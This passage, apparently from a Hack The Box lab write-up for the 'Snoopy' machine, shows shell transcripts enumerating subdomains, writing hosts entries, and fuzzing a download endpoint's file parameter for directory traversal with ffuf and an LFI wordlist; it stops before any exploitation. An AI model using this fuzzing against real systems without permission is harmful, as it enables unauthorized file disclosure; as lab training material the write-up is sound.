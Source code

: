 ```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ vi dig.cleaned.txt

┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ sed -i 's/.$//' dig.cleaned.txt

┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ cat dig.cleaned.txt|sort -u
mattermost.snoopy.htb
mm.snoopy.htb
ns1.snoopy.htb
ns2.snoopy.htb
postgres.snoopy.htb
provisions.snoopy.htb
snoopy.htb
www.snoopy.htb
```

Write to hosts

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ pt init '10.129.229.5 mail.snoopy.htb mattermost.snoopy.htb mm.snoopy.htb ns1.snoopy.htb ns2.snoopy.htb postgres.snoopy.htb provisions.snoopy.htb snoopy.htb www.snoopy.htb'
```

### snoopy.htb

#### Directory Traversal

There's an endpoint allow me to specify file to download

![](/assets/obsidian/4a3944482b923e5a0139eae84d2fbb7f.png)

![](/assets/obsidian/b9bf713ada6bdad7f4f0e6c289ba7a84.png)

Fuzz for LFI

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ ffuf -c -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u 'http://snoopy.htb/download?file=FUZZ' -fs 0
```
